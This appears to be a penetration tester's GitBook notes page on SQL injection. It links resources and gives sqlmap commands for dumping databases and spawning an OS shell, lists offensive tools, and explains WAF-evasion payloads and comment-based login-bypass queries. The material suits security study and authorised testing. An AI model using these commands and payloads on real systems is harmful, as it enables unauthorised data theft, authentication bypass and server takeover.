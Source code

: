 # SQL Injection

## Guides and Resources

{% tabs %}
{% tab title="Guides" %}
* [https://www.sqlinjection.net/](https://www.sqlinjection.net/)
* [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL\_Injection)
* [https://owasp.org/www-community/Injection\_Flaws](https://owasp.org/www-community/Injection\_Flaws)
* [http://securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html](http://securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html)
* [https://www.w3schools.com/sql/default.asp](https://www.w3schools.com/sql/default.asp)
* [https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)
* [https://cheatsheetseries.owasp.org/cheatsheets/Injection\_Prevention\_Cheat\_Sheet.html#sql-injection](https://cheatsheetseries.owasp.org/cheatsheets/Injection\_Prevention\_Cheat\_Sheet.html#sql-injection)
* [https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html)
* [https://pentestbook.six2dez.com/enumeration/web/sqli](https://pentestbook.six2dez.com/enumeration/web/sqli)
* [https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
* _SQL Injection Vulnerabilities - Bug Bounty Hunting Essentials, pg 29_
{% endtab %}

{% tab title="Payload Cheatsheets" %}
* [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
* [https://github.com/payloadbox/sql-injection-payload-list/](https://github.com/payloadbox/sql-injection-payload-list/)
* [https://websec.ca/kb/sql\_injection](https://websec.ca/kb/sql\_injection)
* [http://pentestmonkey.net/category/cheat-sheet/sql-injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)
{% endtab %}
{% endtabs %}

{% content-ref url="sql-tips-and-tricks.md" %}
[sql-tips-and-tricks.md](sql-tips-and-tricks.md)
{% endcontent-ref %}

## ****[**SQLmap**](https://github.com/sqlmapproject/sqlmap)  **** &#x20;

SQL Injection tool that can spawn a meterpreter or VNC session back to attacker. Can return a decent number of false positives. Always verify. If you do not specify a value, SQLmap will attempt all by default

{% tabs %}
{% tab title="Guides and Resources" %}
* [SQLMate](https://github.com/s0md3v/sqlmate) - Companion tool for SQLMap
  * &#x20;Maps out and locates admin panel
  * Query dorking for finding targets
  * hash lookup
* [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
* [https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
* __[https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
* [https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)
* [https://tryhackme.com/room/sqlmap](https://tryhackme.com/room/sqlmap)
* _RTFM: SQLMap - pg. 71_
* _Operator Handbook: SQLMap - pg. 284_
{% endtab %}

{% tab title="Config/help cmds" %}
Specify the database type if not SQL

```
--dbms=[db type]
```

If you need to test and authenticated SQL injection, log into website via a browserand grab the cookie (pull from burp suite)

```
--data=[COOKIE]
```

Help

```
# sqlmap --wizard
```


{% endtab %}

{% tab title="Cmds - GET" %}
### Commands GET parameter - injection passed in the URL itself

Test if sql inject is valid (will return banner on success)

```
# sqlmap -u "http://domain.com?user=test&pass=test" -b
```

Retrieve a database username

```
# sqlmap -u "http://domain.com?user=test&pass=test" --current-user
```

Crawl target

```
sqlmap -u http://10.10.10.10 --crawl=1
```

Dump Database

```
sqlmap -u http://10.10.10.10 --dbms=mysql --dump
```

Spawn interactive shell

```
# sqlmap -u "http://domain.com?user=test&pass=test" --os-shell
```

WAF bypass and shell setup

```
# sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
{% endtab %}

{% tab title="Cmds - POST" %}
### Commands POST parameter - injection passed in the data section

Test if sql inject is valid (will return banner on success)

```
# sqlmap -u “http://domain.com” --data="user=test&pass=test" -b
```
{% endtab %}
{% endtabs %}

<details>

<summary>SQLmap with Burp</summary>

* Start SQLmap API on your kali box while Burp Proxy Pro can be runnign anywhere
* When Burp finds an SQL injection, it will connect to SQLmap's running API to automaticallu attack the vulnerable parameters.
* Start SQLmap API
  * \# cd /opt/sqlmap
  * \# python sqlmapapi.py -s \[ip] -p \[port]

</details>

{% embed url="https://youtu.be/2YD4vygeghM" %}

## Other Tools

<details>

<summary>Other Tools</summary>

* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) - A PowerShell Toolkit for Attacking SQL Server
  * [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
  * [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
* [**SQLninja**](http://sqlninja.sourceforge.net/)****
  * [https://www.jedge.com/wordpress/sqlninja-sql-injection/](https://www.jedge.com/wordpress/sqlninja-sql-injection/)
  * Great for evading IDS and uploading shells
  * Often times IDS will either recognize SQLmap OR SQLninja but not both
  * With SQLninja you must specify the vulnerable variable to inject.
  * Takes more to set up with manipulation of the config file.
* ****[**NOSQLmap**](https://github.com/codingo/NoSQLMap)****
  * Used for NOSQL databases
* [https://github.com/torque59/Nosql-Exploitation-Framework](https://github.com/torque59/Nosql-Exploitation-Framework)
* [https://github.com/Charlie-belmer/nosqli](https://github.com/Charlie-belmer/nosqli)
* [https://github.com/FSecureLABS/N1QLMap](https://github.com/FSecureLABS/N1QLMap)
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md)
* [DSSS](https://github.com/stamparm/DSSS) - Damn Small SQLi Scanner is a fully functional [SQL injection](https://en.wikipedia.org/wiki/SQL\_injection) vulnerability scanner (supporting GET and POST parameters) written in under 100 lines of code.
* [https://github.com/the-robot/sqliv](https://github.com/the-robot/sqliv)
* [Blisqy](https://github.com/JohnTroony/Blisqy) - Exploit Time-based blind-SQL injection in HTTP-Headers (MySQL/MariaDB).
* [https://github.com/youngyangyang04/NoSQLAttack](https://github.com/youngyangyang04/NoSQLAttack) - **A SQLi vulnerability scanner for mongoDB**
* [https://github.com/WhitewidowScanner/whitewidow](https://github.com/WhitewidowScanner/whitewidow) - **Another SQL vulnerability scanner**

</details>

## **SQL Basics**

{% content-ref url="sql-methodology.md" %}
[sql-methodology.md](sql-methodology.md)
{% endcontent-ref %}

## Attack Techniques

<details>

<summary>Filter evasion</summary>

* Many applications use web application firewalls (WAF) to help protect against any kind of SQL injection vulnerability. The only problem is that WAFs only look for certain words, characters, or patterns, meaning certain special characters used in combination can be used to evade WAF filter protection.
* For example, a very basic WAF may filter out specific SQL keywords such as `OR`, `SELECT`, `UNION` or `WHERE` to prevent them from being used in SQL injection attacks.
* **Methods**
  * **Capitalization** - If the WAF's filter, like the one described above, is implemented poorly, then there may be ways to evade it by using variations of the word being filtered out. The most straightforward example is where we can bypass the filter by capitalizing some letters in the keyword, like this:
    * &#x20;`Or`, `SeLeCt`, `UNioN` and `wHEre`.
  * **URL Encoding** - In cases where the query forms part of a URL, URL encoding may be a viable option for evading the filter. For example `%55` is ‘U’ and `%53` is ‘S’. The WAF may not identify these encoded characters, and may send them to the server which decodes and processes them as the intended keywords.
  * **Multi-line Comments** -  the use of multi-line comments, such as `“/*”` and `“*/”`, may cause the WAF filter to miss the keywords. MySQL will read the content between the two comment lines and execute it as SQL, whereas the DBMS may not flag it up.
    * /\*!%55NiOn\*/ /\*!%53eLEct\*//\*\*//\*!12345UNION SELECT\*//\*\*//\*\*//\*!50000UNION SELECT\*//\*\*//\*\*/UNION/\*\*//\*!50000SELECT\*//\*\*/
    * The ‘+’ can be used to build an injection query without the use of quotes.\
      `+union+distinct+select++union+distinctROW+select+`
  * **Inline Comments** - To bypass certain filters, you can abuse the inline comment system within MySQL using #.
    * `+#uNiOn+#sEleCt`
  * **Reverse Function** - To bypass a filter looking for certain strings, you can use the REVERSE function which will evaluate the correct way around at run time. However, when going through the filter, it will be seen as ‘noinu’ instead of ‘union’.
    * `REVERSE('noinu')+REVERSE('tceles')`
  * **String Splitting** - You can split strings within the query to bypass various filters. MySQL will still execute them as keywords.
    * `un?+un/**/ion+se/**/lect+`



</details>

<details>

<summary>String Concatenation</summary>

An input field may restrict the usage of certain datatypes and/or words/punctuation. This can make the exploitation of SQL injection vulnerabilities a little bit more difficult. However, two functions can be used in conjunction to bypass filters such as these:`CHAR()` and `CONCAT()`.

#### Syntax & examples

* Within MySQL, you have to use quotation marks to input a string into a statement. However, with the use of string functions and encoding methods, you can get past this hurdle.
* To concatenate various strings inside a statement, the MySQL function `CONCAT` is available.
  * `CONCAT(str1, str2, str3)`
  * `SELECT CONCAT(login, email) FROM users`
* Another way to create strings without the use of quotes is the MySQL's `CHAR` function, which returns a character related to the integer passed to it. For example, `CHAR(75)` returns K.\
  `CHAR` and `CONCAT` are often used together to create full sets of strings which bypass specific string filtering. This means you don't need quotation marks in the query.
  * `SELECT CONCAT(CHAR(77),CHAR(76),CHAR(75))`
  * This will select data from a database that is of ‘MLK’.
* Encoding methods are another way to manipulate strings.\
  Strings can be encoded into their Hex values either by passing a hex value or using the `HEX()` function.
* For example, the string 'password' can be passed to an SQL statement like this: `SELECT 0x70617373776f726`

</details>

<details>

<summary>Retrieve Hidden Data</summary>

* When retrieving items from a database via an SQL query, some results may be filtered with a restriction clause at the end of the of the query&#x20;
* In a vulnerable parameter, we can insert ‘--’ which is the SQL code for a comment. This will “comment out” the rest of the query, there for removing any restrictions placed on it.
* Example: &#x20;
  * https://insecure-website.com/products?category=Gifts
  * Query made by this URL:`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`&#x20;
  * URL with added comment attack: https://insecure-website.com/products?category=Gifts'--
    * Resulted query:`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
  * Expanding URL to show everything&#x20;
    * https://insecure-website.com/products?category=Gifts'+OR+1=1--
    * &#x20;Resulted query: `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
*  [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

</details>

<details>

<summary>Subvert App Logic/Login Bypass</summary>

* When an application checks login credentials, it submits in a query, usually with the fields of a username and password. If the query returns with the user details, the login is successful.
* One way of bypassing the login requirement of the password, is to comment out the part of the query, after the username
* Example
  * Original login query:\
    &#x20;◇ `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`\
    • Query with bypassed password field\
    &#x20;◇ `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
* [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
* [http://www.securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html)
* [https://portswigger.net/web-security/sql-injection/lab-login-bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

</details>

## **Manual Injection Methodology**

{% content-ref url="manual-injection-methodology.md" %}
[manual-injection-methodology.md](manual-injection-methodology.md)
{% endcontent-ref %}
